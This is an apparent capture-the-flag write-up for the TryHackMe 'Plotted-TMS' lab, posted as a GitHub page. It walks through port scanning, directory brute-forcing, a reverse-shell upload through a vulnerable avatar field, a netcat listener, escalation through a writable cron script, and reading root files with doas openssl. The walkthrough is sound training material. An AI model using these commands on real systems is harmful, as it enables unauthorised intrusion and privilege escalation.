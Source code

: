 ## Plotted-TMS 

Room link: https://tryhackme.com/room/plottedtms

## Scanning 
I ran an aggressive NMAP scan with ```-A``` option. 
```
ajread@aj-ubuntu:~/TryHackMe$ nmap -A [Remote IP]
Starting Nmap 7.80 ( https://nmap.org ) at 2022-04-05 19:32 EDT
Nmap scan report for [Remote IP]
Host is up (0.11s latency).
Not shown: 997 closed ports
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
445/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_smb2-time: Protocol negotiation failed (SMB2)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 83.43 seconds
```
A full nmap scan affirmed the services on the target. 
```
ajread@aj-ubuntu:~$ nmap -p- [Remote IP]
Starting Nmap 7.80 ( https://nmap.org ) at 2022-04-05 19:31 EDT
Nmap scan report for [Remote IP]
Host is up (0.10s latency).
Not shown: 65532 closed ports
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
445/tcp open  microsoft-ds

Nmap done: 1 IP address (1 host up) scanned in 708.46 seconds
```
## Enumeration
```
ajread@aj-ubuntu:~$ gobuster -u http://[Remote IP] -w /home/ajread/resources/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt 

=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://[Remote IP]/
[+] Threads      : 10
[+] Wordlist     : /home/ajread/resources/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt
[+] Status codes : 200,204,301,302,307,403
[+] Timeout      : 10s
=====================================================
2022/04/05 20:11:29 Starting gobuster
=====================================================
/admin (Status: 301)
/shadow (Status: 200)
/passwd (Status: 200)
=====================================================
2022/04/05 20:29:50 Finished
=====================================================
```
```
ajread@aj-ubuntu:~$ gobuster -u http://[Remote IP]:445 -w /home/ajread/resources/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt 

=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://[Remote IP]:445/
[+] Threads      : 10
[+] Wordlist     : /home/ajread/resources/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt
[+] Status codes : 200,204,301,302,307,403
[+] Timeout      : 10s
=====================================================
2022/04/05 20:11:31 Starting gobuster
=====================================================
/management (Status: 301)
=====================================================
2022/04/05 20:29:50 Finished
=====================================================
```
## Initial Access
After doing some research online, it appeared that Traffic Offense Management system is susceptible to SQL injection or RCE (```https://www.exploit-db.com/exploits/50221```). First checking on SQL injection, I attempted to login with ```test:test``` and found that the response from the server contained SQL queries. 
```
{
  "status": "incorrect",
  "last_qry": "SELECT * from users where username = 'test' and password = md5('test') "
}
```
I found an exploit online that was listed as RCE and I used the username:password combination in the exploit to login to the TMS. Reading through the same exploit, I could upload anything on the ```admin/?page=user``` page, which is used to create a new user, as the user avatar. Therefore, I created a php reverse shell using pentest monkey to upload in the avatar section. 

Before uploading, I set up a listener on my local machine. 
```
ajread@aj-ubuntu:~$ nc -lnvp 9999
```
Finally, I uploaded the php reverse shell at ```http://[Remote IP]:445/management/admin/?page=user``` on the TMS and it called back! 
```
ajread@aj-ubuntu:~$ nc -lnvp 9999
Listening on 0.0.0.0 9999
Connection received on [Remote IP] 59404
Linux plotted 5.4.0-89-generic #100-Ubuntu SMP Fri Sep 24 14:50:10 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 23:56:52 up 27 min,  0 users,  load average: 5.87, 3.24, 1.97
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
I made sure to upgrade my shell. 
```
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@plotted:/home/plot_admin$ 
```
In order to see user.txt, I had to become the plot_admin user. It appeared that a backup shell script (called ```backup.sh```) ran periodically as user plot_admin on the system when I looked at the cronjobs. I needed to find a way to have that same mechanism execute my own shell script as user plot_admin. I found out that I have write access to the ```/var/www/scripts``` directory, where the shell script sat. I was lost for a while, so I used infinity's write up here: ```https://wiki.thehacker.nz/docs/thm-writeups/plotted-tms-easy/``` to help me figure out a way to link a shell script that would execute ```/bin/bash``` to the ```backup.sh``` shell script. 

As a result, I escalated to user plot_admin. 
```
www-data@plotted:/$ /home/plot_admin/pa_shell -p
/home/plot_admin/pa_shell -p
pa_shell-5.0$ id
id
uid=33(www-data) gid=33(www-data) euid=1001(plot_admin) egid=1001(plot_admin) groups=1001(plot_admin),33(www-data)
pa_shell-5.0$ whoami
whoami
plot_admin
```
And got the user flag. 
```
pa_shell-5.0$ wc -c /home/plot_admin/user.txt
wc -c /home/plot_admin/user.txt
33 /home/plot_admin/user.txt
```
## Privilege Escalation 
I added my public ssh key as an authorized key on the target machine so that I was able to ssh into the target. 
```
ajread@aj-ubuntu:~$ ssh plot_admin@[Remote IP]
```
Looking around for possible privilege escalation techniques, it appeared that user plot_admin could run openssl as root without a password. 
```
plot_admin@plotted:~/tms_backup$ cat /etc/doas.conf
permit nopass plot_admin as root cmd openssl
```
I checked out the GTFOBins website to see if I could use openssl for priv esc (https://gtfobins.github.io/gtfobins/openssl/). It looked like I could with: 
```
LFILE=file_to_read
openssl enc -in "$LFILE"
```
Combining the information I found, I tried to read the flag within the root home directory. And it worked! 
```
plot_admin@plotted:~/tms_backup$ doas openssl enc -in "/root/root.txt"
Congratulations on completing this room!

[REDACTED]

Hope you enjoyed the journey!

Do let me know if you have any ideas/suggestions for future rooms.
-sa.infinity8888
```
## Assistance 
Done with help from: https://wiki.thehacker.nz/docs/thm-writeups/plotted-tms-easy/